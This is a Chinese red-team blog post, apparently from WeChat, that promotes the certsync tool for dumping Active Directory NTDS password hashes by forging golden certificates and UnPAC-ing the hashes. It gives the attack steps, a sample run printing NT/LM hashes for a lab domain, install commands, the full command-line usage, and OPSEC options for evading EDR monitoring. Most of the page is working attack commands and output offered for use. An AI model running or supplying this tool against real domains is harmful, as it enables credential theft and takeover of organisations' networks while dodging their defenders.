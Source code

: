 #  黑客利器曝光：Certsync 黄金证书窃取 NTDS 和 UnPAC 哈希值的秘密技巧！

良辰  [ 红队笔记录 ](javascript:void\(0\);)

**红队笔记录** ![]()

微信号 gh_0162f0882c95

功能介绍 分享各种红队攻击手法，内网渗透，代码审计，工具开发，公开漏洞测试等内容

____

___发表于_

收录于合集

  

certsync是一种远程转储 NTDS 的新技术，但这次没有 DRSUAPI：它使用黄金证书和UnPAC 哈希。它分几个步骤进行：

  1. 从 LDAP 转储用户列表、CA 信息和 CRL

  2. 转储 CA 证书和私钥

  3. 为每个用户离线伪造证书

  4. UnPAC 每个用户的哈希值以获得 nt 和 lm 哈希值

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    $ certsync -u khal.drogo -p 'horse' -d essos.local -dc-ip 192.168.56.12 -ns 192.168.56.12[*] Collecting userlist, CA info and CRL on LDAP[*] Found 13 users in LDAP[*] Found CA ESSOS-CA on braavos.essos.local(192.168.56.23)[*] Dumping CA certificate and private key[*] Forging certificates for every users. This can take some time...[*] PKINIT + UnPAC the hashesESSOS.LOCAL/BRAAVOS$:1104:aad3b435b51404eeaad3b435b51404ee:08083254c2fd4079e273c6c783abfbb7:::ESSOS.LOCAL/MEEREEN$:1001:aad3b435b51404eeaad3b435b51404ee:b79758e15b7870d28ad0769dfc784ca4:::ESSOS.LOCAL/sql_svc:1114:aad3b435b51404eeaad3b435b51404ee:84a5092f53390ea48d660be52b93b804:::ESSOS.LOCAL/jorah.mormont:1113:aad3b435b51404eeaad3b435b51404ee:4d737ec9ecf0b9955a161773cfed9611:::ESSOS.LOCAL/khal.drogo:1112:aad3b435b51404eeaad3b435b51404ee:739120ebc4dd940310bc4bb5c9d37021:::ESSOS.LOCAL/viserys.targaryen:1111:aad3b435b51404eeaad3b435b51404ee:d96a55df6bef5e0b4d6d956088036097:::ESSOS.LOCAL/daenerys.targaryen:1110:aad3b435b51404eeaad3b435b51404ee:34534854d33b398b66684072224bb47a:::ESSOS.LOCAL/SEVENKINGDOMS$:1105:aad3b435b51404eeaad3b435b51404ee:b63b6ef2caab52ffcb26b3870dc0c4db:::ESSOS.LOCAL/vagrant:1000:aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::ESSOS.LOCAL/Administrator:500:aad3b435b51404eeaad3b435b51404ee:54296a48cd30259cc88095373cec24da:::

## 安装

  *   *   * 

    
    
    git clone https://github.com/zblurx/certsynccd certsyncpip install .

或者

  * 

    
    
    pip install certsync

## 用法

  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    $ certsync -husage: certsync [-h] [-debug] [-outputfile OUTPUTFILE] [-ca-pfx pfx/p12 file name] [-ca-ip ip address] [-d domain.local] [-u username] [-p password] [-hashes LMHASH:NTHASH]                [-no-pass] [-k] [-aesKey hex key] [-use-kcache] [-kdcHost KDCHOST] [-scheme ldap scheme] [-ns nameserver] [-dns-tcp] [-dc-ip ip address]                [-ldap-filter LDAP_FILTER] [-template cert.pfx] [-timeout timeout] [-jitter jitter] [-randomize]  
    Dump NTDS with golden certificates and PKINIT  
    options:  -h, --help            show this help message and exit  -debug                Turn DEBUG output ON  -outputfile OUTPUTFILE                        base output filename  
    CA options:  -ca-pfx pfx/p12 file name                        Path to CA certificate  -ca-ip ip address     IP Address of the certificate authority. If omitted it will use the domainpart (FQDN) specified in LDAP  
    authentication options:  -d domain.local, -domain domain.local                        Domain name  -u username, -username username                        Username  -p password, -password password                        Password  -hashes LMHASH:NTHASH                        NTLM hashes, format is LMHASH:NTHASH  -no-pass              don't ask for password (useful for -k)  -k                    Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on target parameters. If valid credentials cannot be found, it                        will use the ones specified in the command line  -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256 bits)  -use-kcache           Use Kerberos authentication from ccache file (KRB5CCNAME)  -kdcHost KDCHOST      FQDN of the domain controller. If omitted it will use the domain part (FQDN) specified in the target parameter  
    connection options:  -scheme ldap scheme  -ns nameserver        Nameserver for DNS resolution  -dns-tcp              Use TCP instead of UDP for DNS queries  -dc-ip ip address     IP Address of the domain controller. If omitted it will use the domain part (FQDN) specified in the target parameter  
    OPSEC options:  -ldap-filter LDAP_FILTER                        ldap filter to dump users. Default is (&(|(objectCategory=person)(objectClass=computer))(objectClass=user))  -template cert.pfx    base template to use in order to forge certificates  -timeout timeout      Timeout between PKINIT connection  -jitter jitter        Jitter between PKINIT connection  -randomize            Randomize certificate generation. Takes longer to generate all the certificates

DSRUAPI 越来越受到 EDR 解决方案的监控，有时甚至受到限制。而且，`certsync`不需要使用域管理员，只需要CA管理员。

## 要求

这种攻击需要：

  * 域中 ADCS 服务器上配置的企业 CA，

  * PKINIT 工作，

  * ADCS 服务器上的本地管理员域帐户，或 CA 证书和私钥的导出。

## 局限性

由于我们无法对被撤销的用户进行 PKINIT，因此我们无法转储他们的哈希值。

## OPSEC

添加了一些选项来自定义该工具的行为：

  * `-ldap-filter`：将用于选择用户名的 LDAP 过滤器更改为 certsync。

  * `-template`：伪造用户证书时，使用已经下发的证书进行模仿。

  * `-timeout`和`-jitter`：更改 PKINIT 身份验证请求之间的超时。

  * `-randomize`：默认情况下，每个伪造的用户证书都会具有相同的私钥、序列号和有效期。该参数将使它们随机化，但锻造将花费更长的时间。

  

参考：  

https://github.com/zblurx/certsync#table-of-contents

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

